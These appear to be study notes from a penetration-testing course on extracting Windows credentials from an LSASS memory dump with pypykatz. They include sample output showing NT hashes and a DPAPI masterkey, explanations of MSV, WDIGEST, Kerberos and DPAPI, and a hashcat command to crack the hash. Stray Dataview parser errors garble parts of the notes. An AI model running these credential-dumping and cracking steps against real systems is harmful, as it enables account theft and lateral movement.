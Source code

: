 # Pypykatz

* python implementation of Mimikatz
* Once we have the dump file on our attack host, we can use a powerful tool called [pypykatz](https://github.com/skelsec/pypykatz) to attempt to extract credentials from the .dmp file

**Running Pypykatz**

```shell-session
 pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

```shell-session
INFO:root:Parsing file /home/peter/Documents/lsass.dmp
FILE: ======== /home/peter/Documents/lsass.dmp =======
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605

== LogonSession ==
authentication_id 1354581 (14ab55)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354581
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)

== LogonSession ==
authentication_id 1343859 (148173)
session_id 2
username DWM-2
domainname Window Manager
logon_server 
logon_time 2021-12-14T18:14:25.248681+00:00
sid S-1-5-90-0-2
luid 1343859
	== WDIGEST [148173]==
		username WIN-6T0C3J2V6HP$
		domainname WORKGROUP
		password None
		password (hex)
	== WDIGEST [148173]==
		username WIN-6T0C3J2V6HP$
		domainname WORKGROUP
		password None
		password (hex)
```

```shell-session
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```

**MSV**

* [MSV](https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package) is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database.

**WDIGEST**

```shell-session
== WDIGEST [14ab89]==
	username bob
	domainname DESKTOP-33E7O54
	password None
	password (hex)
```

```
Dataview (inline field '= WDIGEST [14ab89]==
	username bob
	domainname DESKTOP-33E7O54
	password None
	password (hex)'): Error: 
-- PARSING FAILED --------------------------------------------------

> 1 | = WDIGEST [14ab89]==
    | ^
  2 | 	username bob
  3 | 	domainname DESKTOP-33E7O54

Expected one of the following: 

'(', 'null', boolean, date, duration, file link, list ('[1, 2, 3]'), negated field, number, object ('{ a: 1, b: 2 }'), string, variable
```

* LSASS caches credentials used by WDIGEST in clear-text.
* Modern Windows operating systems have WDIGEST disabled by default
* &#x20;Additionally, it is essential to note that Microsoft released a security update for systems affected by this issue with WDIGEST.
  * We can study the details of that security update [here](https://msrc-blog.microsoft.com/2014/06/05/an-overview-of-kb2871997/).

**Kerberos**

```shell-session
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
```

```
Dataview (inline field '= Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54'): Error: 
-- PARSING FAILED --------------------------------------------------

> 1 | = Kerberos ==
    | ^
  2 | 		Username: bob
  3 | 		Domain: DESKTOP-33E7O54

Expected one of the following: 

'(', 'null', boolean, date, duration, file link, list ('[1, 2, 3]'), negated field, number, object ('{ a: 1, b: 2 }'), string, variable
```

* Kerberos is a network authentication protocol used by Active Directory in Windows Domain environments.
  * Domain user accounts are granted tickets upon authentication with Active Directory.
    * This ticket is used to allow the user to access shared resources on the network that they have been granted access to without needing to type their credentials each time.
* LSASS caches passwords, ekeys, tickets, and pins associated with Kerberos.
  * It is possible to extract these from LSASS process memory and use them to access other systems joined to the same domain.

**DPAPI**

```shell-session
== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605
```

```
Dataview (inline field '= DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605'): Error: 
-- PARSING FAILED --------------------------------------------------

> 1 | = DPAPI [14ab89]==
    | ^
  2 | 		luid 1354633
  3 | 		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b

Expected one of the following: 

'(', 'null', boolean, date, duration, file link, list ('[1, 2, 3]'), negated field, number, object ('{ a: 1, b: 2 }'), string, variable
```

* The Data Protection Application Programming Interface or DPAPI is a set of APIs in Windows operating systems used to encrypt and decrypt DPAPI data blobs on a per-user basis for Windows OS features and various third-party applications.

| Applications                | Use of DPAPI                                                                                |
| --------------------------- | ------------------------------------------------------------------------------------------- |
| `Internet Explorer`         | Password form auto-completion data (username and password for saved sites).                 |
| `Google Chrome`             | Password form auto-completion data (username and password for saved sites).                 |
| `Outlook`                   | Passwords for email accounts.                                                               |
| `Remote Desktop Connection` | Saved credentials for connections to remote machines.                                       |
| `Credential Manager`        | Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more. |

**Cracking the NT Hash with Hashcat**

*   #### Cracking the NT Hash with Hashcat

    ```
    sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
    ```

